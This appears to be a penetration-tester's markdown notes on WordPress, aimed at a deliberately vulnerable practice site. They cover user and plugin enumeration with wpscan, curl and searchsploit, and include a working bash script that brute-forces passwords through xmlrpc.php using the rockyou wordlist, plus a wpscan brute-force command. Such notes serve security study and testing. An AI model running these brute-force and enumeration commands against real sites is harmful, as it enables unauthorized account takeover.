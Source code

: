 ----
> We can test WordPress vulns with this playground: [dvwp](https://github.com/vavkamil/dvwp).
----

# User enumeration

## Manual methods

### Author post

If we see "by someone" in a post, we can click that user and check the url looking for other users.

### wp-admin

We can check if *wp-admin* is available and start testing users checking hints provided by the error message.

## Tools

### wpscan

We can enumerate users with wpscan using *-e u* option.

```shell
wpscan --url http://{URL}:{PORT} -e u --api-token="{TOKEN}"
```

# Vulnerabilities enumeration

## Manual methods

### curl

We can check plugins and it's versions using curl:

```shell
curl -s -X GET "http://{URL}:{PORT}/" | grep plugins
```

Then we can use searchsploit for searching vulnerabilities available for that plugin/version:
```shell
searchsploit {PLUGIN_NAME}
```

### xmlrpc

The xmlrpc.php file is used by WordPress plugins and mobile apps to interact with website and do some tasks like publish content, refresh site or get information. We can brute-force it because we have unlimited attempts number to log-in with this file.

First of all, we need to check if xmlrpc.php is exposed, check available [methods](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/), and finally we can use an script like this for brute-forcing it:

```bash
#!/bin/bash

function ctrl_c() {
  echo -e "\n\n[!] Exiting..."
  exit 1
}

# Ctrl+C
trap ctrl_c SIGINT

function createXML() {
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>{USERNAME}</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

  echo $xmlFile > file.xml

  response=$(curl -s -X POST "http://{URL}:{PORT}/xmlrpc.php" -d@file.xml)

  if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
    echo -e "\n[+] The password for user {USERNAME} is $password"
    rm file.xml
    exit 0
  fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done

```

## Tools

### wpscan

We can get a token from [wpscan](https://wpscan.com/) and start scanning wordpress sites.

```shell
# With -e we can enumerate some stuff, for example with vp (vulnerable plugins) or u (users)
wpscan --url http://{URL}:{PORT} -e vp,u --api-token="{TOKEN}"
```

We can also brute-forcing log-in with this tool:
```shell
wpscan --url http://{URL}:{PORT} -U {USERNAME} -P /usr/share/wordlists/rockyou.txt
```
